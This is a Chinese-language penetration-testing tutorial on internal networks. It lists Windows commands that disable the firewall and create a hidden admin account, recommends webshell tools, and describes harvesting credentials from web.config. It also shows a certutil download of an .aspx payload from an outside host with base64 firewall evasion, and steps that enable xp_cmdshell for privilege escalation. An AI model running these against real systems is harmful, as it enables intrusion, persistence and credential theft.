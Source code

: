 # 内网渗透
## 渗透测试的流程
在对内网进行渗透测试前，我们需要获取权限，依次为后台权限=》webshell权限=》服务器权限；大多数情况下是获取到webshell权限，随后再进行提权操作获取服务器权限。
## webshell
#### webshell的定义：对web应用中的文件拥有增删改查的功能。
#### webshell权限
webshell的权限根据不同的系统有的不同的权限，有的时候是系统权限，有的时候是管理员权限，有的时候是普通用户权限。
- Windows
1. system         系统权限      （system权限是最高权限）
2. Administrator  管理员权限
3. user           普通权限
- Linux
1. root           管理员权限
2. user           普通权限

##### 内网需要对计算机不同的系统有着一定的操作能力。
## Windows系统基础篇
- 在Windows服务器中默认只允许拥有管理员权限的用户才能远程登陆服务器中。
- Windows的服务器系统版本（win2000,win2003,win2008,win2012,win2016,win2019,win2022）,都有共同的默认账号administrator和guest，且guest账号默认是禁用的。
- Windows默认远程控制（RDP）端口为3389，服务（TermService）
#### 如何通过命令行锁定端口号
有的时候远程的端口会被管理员修改，我们可以通过命令行来对端口进行锁定，步骤如下：
1. 使用`tasklist /svc`找到TermService服务对应的PID号
2. `netstat -ano`找到对应PID开放的端口号

#### 连接不上3389端口的原因
- 对方服务器只映射了web端口到外网，未映射3389端口到外网，所以外网无法直接访问内网的3389，导致无法连接；可通过ipconfig查看系统是公网IP还是公网IP。
- 服务器自身的系统防火墙入网规则未允许3389入网请求。解决方法：使用dos命令关闭防火墙，简单暴力。

## doc命令篇
```
netsh firewall set opmode disable 关闭防火墙
netsh firewall set opmode mode=enable 开启防火墙
whoami /priv  查看当前权限列表
net user 查看用户列表
net user aaa 查看用户aaa
net user aaa 123  修改用户aaa密码为123
net user aaa /del 删除用户aaa
net user aaa 123 /add 添加用户aaa并且密码为123
net user aaa /active:yes  激活用户aaa
net user aaa /active:no   禁用用户aaa
net localgroup Administrators aaa /add 用户aaa添加到管理员组
net localgroup Administrators aaa /del 将用户aaa从管理员组移除
net localgroup Administrators  查看管理员组有哪些用户
tasklist /svc 查看进程所对应的服务名和PID
tasklist /v 查看进程对应启动的用户名
netstat -ano 查看开放的端口
chdir 查看当前路径
```
## 拿到webshell后如何进行信息收集
常见的连接webshell的工具，如：
1. 冰蝎
2. 蚁剑
3. 菜刀
4. 哥斯拉（推荐）https://github.com/808Mak1r/GodzillaSource

连接好webshell后收集数据库信息，然后连接数据库。Windows上搭建的服务器可以查看web.config，当此文件没有我们要的信息时，也可以查看其他带有.config的文件，尽量收集更多的信息。

- web.config可能收集到的信息
1. 数据库连接信息
2. 邮件连接信息
3. 域控管理员连接信息
4. 后台账号密码
5. 短信发送平台连接信息
6. API接口平台

## Windows上下载文件到服务器有哪些方法？
- certutil命令(该命令在win2000上不支持)
`certutil -urlcache -split -f http://1.1.1.1:8080/test.aspx`
##### 此命令的其他功能
```
certutil -urlcache -split -f http://1.1.1.1:8080/test.aspx C:\Windows\Temp\1.aspx 下载文件到制定路径下

certutil 还可以进行base64编码，可通过此防范绕过防火墙，步骤如下

首先先将文件进行编码 certutil -encode 1.aspx 1.txt,这样我们就将1.aspx进行了base64编码并存储到了1.txt文件中，随后我们在解码，certutil -decode 1.txt 2.aspx,将编码后的文件再解码，就可以执行文件了。


```

## 权限提升
权限提升分为两类，一类是系统漏洞提权，一类是不正确配置提权，也称第三方提权（sql server提权）。
- sql server 提权操作
```
第一种
sp_configure 'show advanced options',1
reconfigure
go
sp_configure 'xp_cmdshell',1
reconfigure
go

第二种

sp_configure 'show advanced options',1
RECONFIGURE WITH OVERRIDE
go
sp_configure 'xp_cmdshell',1
RECONFIGURE WITH OVERRIDE
go

```










